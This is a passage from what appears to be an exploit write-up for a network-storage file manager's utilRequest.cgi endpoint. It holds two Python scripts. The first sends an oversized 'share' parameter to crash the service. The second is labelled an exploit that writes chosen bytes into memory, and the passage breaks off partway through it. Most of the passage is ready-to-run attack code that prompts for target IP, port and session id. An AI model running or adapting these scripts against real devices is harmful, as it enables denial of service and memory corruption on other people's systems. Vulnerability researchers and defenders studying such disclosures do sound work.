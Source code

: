 3.  Get the known current user sid, run belowing code and input the IP、Port、sid
    (This is a simple version of payload, binary not included)

    ```py
    import requests

    host = input("Please input the IP: ")
    port = input("Please input the Port: ")
    port = port if port != '' else '5000'
    sid = input("Please input the sid: ")

    data = 'share=' + '/' * 120000 + 'asdf'

    res = requests.post(
        url = f"http://{host}:{port}/cgi-bin/filemanager/utilRequest.cgi?func=unmount_qdff&sid={sid}", 
        headers = {
            'Host': f'{host}:{port}',
            'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
            'Content-Length': str(len(data))
        },
        data = data
    )

    print('----------------------------------')
    print(res.text)
    print('----------------------------------')

    if 'Internal Server Error' in res.text: 
        print('Success! ')
    else:
        print('Failed, please check if sid has expired')
    ```

    Exp that writes any bytes from 0x00 to 0x7f to memory

    ```py
    import requests
    from urllib.parse import quote
    import json

    host = '127.0.0.1'
    port = 5000
    sid = ''            #Your sid
    path = '/Multimedia'        #The path you upload qdff foler
    filename = 'Backup 1.qdff'  #The name of the qdff folder you uploaded

    bytes_you_wanna_insert = b'\x01\x02\x03\x04'    #The bytes you wanna write into the memory, here is a example
    backslash_nums = 123000                         #The number of backslash, related to the address you write your bytes, here is a example

    def qts_req(data: str, api: str):
        res = requests.post(
            url = f"http://{host}:{port}/cgi-bin/filemanager/utilRequest.cgi?func={api}&sid={sid}", 
            headers = {
                'Host': f'{host}:{port}',
                'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
                'Content-Length': str(len(data))
            },
            data = data
        )
        return res.text

